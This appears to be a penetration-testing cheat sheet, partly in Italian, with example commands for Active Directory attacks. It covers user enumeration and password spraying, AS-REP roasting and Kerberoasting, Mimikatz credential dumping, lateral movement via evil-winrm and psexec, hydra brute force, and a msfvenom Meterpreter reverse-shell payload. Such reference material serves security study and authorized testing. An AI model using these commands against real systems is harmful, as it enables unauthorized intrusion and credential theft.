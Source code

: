 ## Table of useful command

| Tool            | Descrizione / Uso principale                                                | Comandi Esempio |
|-----------------|------------------------------------------------------------------------------|-----------------|
| `kerbrute`      | Enumerate / brute force / password spray                                    | **Enumeration**: `kerbrute userenum -d example.local --dc 192.168.1.10 users.txt`<br>**BruteForce**: `kerbrute bruteuser -d example.local --dc 192.168.1.10 administrator passwords.txt`<br>`users.txt` contiene la lista utenti |
| `crackmapexec`  | Enum host, null session, anonymous access                                   | **Get password policy**: `cme <IP> -u 'user' -p 'password' --pass-pol` → poi tarare password spray sulla policy ottenuta<br>**User senza pwd**: `cme smb <dc_ip> -u user.txt -p password.txt --no-bruteforce`<br>**Credenziali valide** Users: `cme smb <IP> -u <user> -p '<pwd>' --users`<br>Shares: `cme smb <IP> -u <user> -p '<pwd>' --shares`<br>**Enumeration**: `crackmapexec smb <IP>`<br>**Lateral Movement**: `crackmapexec smb <IP> -u <user> -p <password> -d <domain>` |
| `evil-winrm`    | Accesso a macchina target                                                   | **Lateral Movement**: `evil-winrm -i 192.168.1.100 -u Administrator -p 'Password123'` |
| `xfreerdp`      | Accesso a macchina target (RDP)                                             | **Lateral Movement**: `xfreerdp /v:192.168.1.100 /u:Administrator /p:'Password123'` |
| `smbclient`     | Accesso a risorse SMB/CIFS                                                  | **Lateral Movement**: `smbclient.py <domain>/<user>:<Password>@<IP>`<br>`smbclient -L //<dc_ip>/` |
| `Enter-PSSession` | Avvia sessione interattiva PowerShell                                    | `Enter-PSSession <domain>`<br>`Enter-PSSession seclogs.research.security.local` |
| `net`           | Controllo policy e info utenti                                              | `net accounts`<br>`net user administrator` |
| `runas`         | Accesso a macchina come altro utente                                        | `runas.exe /user:administrator cmd` |
| `PowerView`     | Enumeration Active Directory (Powersploit)                                  | **AS-REP Roasting**: `Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }`<br>**AD-Kerberoasting**: `Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`<br>`setspn -T research -Q /` |
| `winpeas`       | Privilege escalation scan                                                   | `winpeas.exe` |
| `msfvenom`      | Genera reverse_tcp payload                                                  | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe > rTCP.exe` |
| `msfconsole`    | Moduli Metasploit                                                           | `msfconsole -q`<br>Meterpreter: `exploit/windows/misc/hta_server` |
| `Mimikatz`      | Dump credenziali                                                            | [Mimikatz guide](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/)<br>`hashdump` → NTLM hash<br>`creds:all` → tutte le credenziali possibili<br>`lsa_dump_secrets` → credenziali da LSA<br>`lsa_dump_sam` → credenziali local SAM |
| `psexec`        | Esecuzione comandi su macchina target                                       | `psexec \\\\<target_ip> <cmd_command>` • usato anche per Pass-the-Hash |
| `wmiexec`       | Esecuzione comandi via WMI                                                  | `python wmiexec.py username:password@target_ip "whoami"` |
| `fping`         | ICMP sweep per host alive                                                   | `fping -a -g 192.168.1.0/24` |
| `GetNPUsers`    | ASREProast - ottenere hash                                                  | `python GetNPUsers.py <domain>/ -userfile username.txt -format hashcat -outputfile hash_out.txt`<br>`rubeus.exe asreproast /format:hashcat` |
| `hashcat`       | Craccare hash                                                               | `hashcat -m <algorithm> -a <attack_type> hash.txt` |
| `hydra`         | Brute force                                                                 | `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.0.89 smb2` |
| `wpscan`        | Scan vulnerabilità siti Wordpress                                           | `wpscan --url http://target --enumerate` |
| `nmap`          | Scan porte e servizi                                                        | `nmap -sC -sV -Pn -p- -oA output.txt <IP_addr> -vv` |
